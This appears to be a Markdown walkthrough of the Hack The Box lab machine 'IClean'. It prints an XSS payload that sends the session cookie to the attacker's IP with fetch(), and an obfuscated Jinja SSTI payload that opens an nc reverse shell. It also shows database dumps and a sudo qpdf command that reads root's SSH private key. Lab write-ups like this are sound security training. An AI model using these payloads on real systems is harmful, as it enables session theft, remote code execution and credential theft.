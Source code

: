 **Ping**
![[Pasted image 20240712232653.png]]

**Nmap Scans**
```
mapit 10.10.11.12
```

Nmap Default Scan
![[Pasted image 20240712232800.png]]

Nmap Service and Script Scans
![[Pasted image 20240712232839.png]]

Nmap All Port Scans
![[Pasted image 20240712233200.png]]

Hosts file
![[Pasted image 20240712233147.png]]

Gobuster Scan
```
gobuster dir -u http://capiclean.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobustet.txt
```
![[Pasted image 20240712233231.png]]

![[Pasted image 20240712234805.png]]
On Port 80 http://capiclean.htb/
![[Pasted image 20240712233319.png]]

Login page is not vulnerable to sql injection and default creds not worked

But we can send quote request, will try to exploit this with xss attack
```
%3Cimg%20src%3Dx%20onerror%3Dfetch%28%22http%3A%2F%2F10.10.14.6%3A4444%2F%22%2Bdocument.cookie%29%3B%3E
```
This is url encoded, the original payload is below
```
<img src=x onerror=fetch("http://10.10.14.6:4444/"+document.cookie);>
```
![[Pasted image 20240713000228.png]]

Started nc listener and got a session id
![[Pasted image 20240713000300.png]]
```
eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZpFuEQ.-uIfisSAJmaIpUoJ9OjAsGj6LNc
```

Using Cookie editor extension I have added the session Cookie to the site and accessed the forbidden directory /dashboard and it worked....!
![[Pasted image 20240713000926.png]]

On http://capiclean.htb/dashboard
![[Pasted image 20240713000947.png]]

First generated the invoice
![[Pasted image 20240713001317.png]]

Then QR
![[Pasted image 20240713001409.png]]

![[Pasted image 20240713001425.png]]

Now will analyse the request response
And found the vulnerable parameter, it is qr_link and vulnerable to SSTI
![[Pasted image 20240713001830.png]]


Will Jump to Initial Foothold.....!

After a lot of research, found way to get reverse shell https://medium.com/@amajatsoufiane/cracking-iclean-machine-hack-the-box-iclean-machine-walkthrough-b604fe430458 this article will explain how to trick the server which as SSTI to achieve RCE
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.6 443>/tmp/f  
')|attr('read')()}}
```

Then got a reverse shell as www-data
![[Pasted image 20240713003310.png]]

Found database password
![[Pasted image 20240713003626.png]]
![[Pasted image 20240713003606.png]]

Can see the databases
```
mysql --database capiclean -e 'show databases;' -u iclean -p
```
![[Pasted image 20240713003752.png]]

Found the Consuela password hash
```
mysql --database capiclean -e 'use capiclean; show tables; select * from users' -u iclean -p
```
![[Pasted image 20240713004017.png]]

Found consuela Password, it is **simple and clean**
![[Pasted image 20240713004420.png]]

Switched to Consuela
![[Pasted image 20240713004556.png]]

**User.txt**
![[Pasted image 20240713004641.png]]




Will Jump to Privilege Escalation.....!


Sudo Privilege
![[Pasted image 20240713005609.png]]

We can read any file room root directory using this binary, check this link for qpdf functionality https://qpdf.readthedocs.io/en/stable/cli.html

Used the command to get root's id_rsa 
```
sudo /usr/bin/qpdf --qdf sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```
![[Pasted image 20240713005755.png]]

Will get a root session via ssh
![[Pasted image 20240713005838.png]]

**Root.txt**
![[Pasted image 20240713005913.png]]





Done with IClean.....:)
